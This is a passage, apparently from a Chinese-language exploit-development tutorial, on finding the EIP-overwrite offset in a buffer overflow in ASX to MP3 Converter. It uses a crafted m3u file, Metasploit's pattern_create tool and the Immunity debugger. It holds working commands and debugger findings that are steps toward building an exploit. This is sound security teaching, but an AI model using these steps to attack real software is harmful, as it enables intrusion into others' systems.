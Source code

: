![](../Images/WED/2.11.png)

EIP被C覆盖，所以从这里你可以关注字符20,001到30,000，以较小的增量分解它们，直到找到覆盖EIP的确切4个字节。虽然有效，但此方法可能需要一些时间，有一种更简单的方法。我们可以使用Metasploit pattern_create / pattern_offset函数（您可以在Backtrack / Kali Linux上找到）来找到确切的EIP覆盖，而不是多次尝试。

    root@kali:/# locate *pattern_*.rb
    /usr/share/metasploit-framework/tools/pattern_create.rb
    /usr/share/metasploit-framework/tools/pattern_offset.rb

使用pattern_create，我将创建一个长度为50,000的字符串，将其插入我的脚本并创建一个新的m3u exploit文件。

    root@kali:/# /usr/share/metasploit-framework/tools/pattern_create.rb 50000
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad...

![](../Images/WED/2.12.png)

在Immunity（Ctrl + F2）中重新启动ASX到MP3转换器，打开新创建的m3u文件（从C：\）并检查Immunity中的崩溃。这次我们看到EIP被48376D48覆盖。

![](../Images/WED/2.13.png)
